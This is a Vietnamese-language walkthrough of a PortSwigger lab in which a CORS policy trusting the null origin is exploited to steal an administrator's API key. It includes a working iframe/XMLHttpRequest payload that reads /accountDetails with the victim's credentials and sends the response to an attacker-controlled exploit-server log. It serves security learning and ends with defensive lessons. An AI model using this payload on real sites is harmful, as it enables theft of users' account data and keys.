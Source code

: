 # Write-ups: CORS vulnerability with trusted null origin

### Tổng quan
Khai thác lỗ hổng Cross-Origin Resource Sharing (CORS) trong ứng dụng, nơi cấu hình CORS cho phép origin `null` được tin cậy, phản hồi `Access-Control-Allow-Origin: null` khi nhận header `Origin: null`. Kết hợp với `Access-Control-Allow-Credentials: true`, kẻ tấn công có thể sử dụng iframe với `src="data:text/html,..."` (tạo origin `null`) để gửi yêu cầu cross-origin và lấy thông tin nhạy cảm. Sử dụng payload JavaScript trong Exploit Server để lấy thông tin tài khoản administrator (bao gồm `apikey`) từ endpoint `/accountDetails` và gửi đến máy chủ của kẻ tấn công, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng CORS bằng cách sử dụng origin `null` trong iframe để lấy thông tin tài khoản `administrator` (`apikey`) từ endpoint `/accountDetails` thông qua `XMLHttpRequest`, gửi dữ liệu đến máy chủ của kẻ tấn công và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và gửi yêu cầu GET đến `/accountDetails`
- **Phản hồi**:
    ```json
    {
    "username": "wiener",
    "email": "",
    "apikey": "Gtq2PItOquvXJvvPLnJaIIRlydYRSwh3",
    "sessions": [
        "KR8ikpskfjW5at2SaLh5usMCcsBNCXCr"
    ]
    }
    ```
    - Header: `Access-Control-Allow-Credentials: true`, cho thấy ứng dụng cho phép gửi cookie phiên trong các yêu cầu `cross-origin`.
    - Không có `Access-Control-Allow-Origin` trong phản hồi mặc định:
        ![acao](./images/1_details.png)

2. **Kiểm tra cấu hình CORS**
- Gửi yêu cầu GET `/accountDetails` đến Burp Repeater, thêm header `Origin: null`:
- Phản hồi:
    - Header: `Access-Control-Allow-Origin: null`
    - Xác nhận lỗ hổng CORS: ứng dụng cho phép origin null và gửi cookie phiên với `Access-Control-Allow-Credentials: true`:
        ![null](./images/2_null.png)

3. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server sử dụng iframe với `src="data:text/html,..."` để tạo origin `null` và chạy script lấy thông tin tài khoản:
    ```java
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a4000e3037e363580710339002500f9.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0ab900eb035a36ff800502a901060050.exploit-server.net/log?key='+this.responseText;
    };
    </script>"></iframe>
    ```
    ![body](./images/3_body.png)
- **Ý tưởng payload**:
    - Iframe với `src="data:text/html,..."` tạo origin null, phù hợp với cấu hình CORS của ứng dụng (`Access-Control-Allow-Origin: null`).
    - Thuộc tính `sandbox="allow-scripts allow-top-navigation allow-forms"` cho phép script chạy, điều hướng và gửi form.
    - Script sử dụng `XMLHttpRequest` với `withCredentials=true` để gửi yêu cầu GET đến `/accountDetails`, lấy thông tin tài khoản (bao gồm `apikey`) của người dùng hiện tại (`administrator`).
    - Hàm `reqListener` gửi phản hồi (`responseText`) đến endpoint `/log` trên Exploit Server.

- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Phản hồi được gửi đến `/log?key=...`, chứa `apikey: hUVw7zyTAdqu67D58OejUaEYCH4V6Dar`:
        ![api](./images/4_log.png)

- Submit `apikey` (`hUVw7zyTAdqu67D58OejUaEYCH4V6Dar`) trong giao diện lab để hoàn thành:
    ![SOLVED](./images/5_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng CORS bằng cách sử dụng origin `null` trong iframe với `data:text/html,...` để lấy thông tin nhạy cảm từ endpoint `/accountDetails` thông qua `XMLHttpRequest` với `withCredentials=true`.
- Nhận thức tầm quan trọng của việc không cho phép origin `null` trong cấu hình CORS, kiểm tra nghiêm ngặt danh sách origin được phép, và hạn chế sử dụng `Access-Control-Allow-Credentials: true` để ngăn chặn các cuộc tấn công CORS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng CORS với cấu hình yếu cho phép origin `null`, nhấn mạnh tầm quan trọng của việc loại bỏ origin `null` khỏi danh sách tin cậy, kiểm tra chặt chẽ origin, và hạn chế `Access-Control-Allow-Credentials` để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*
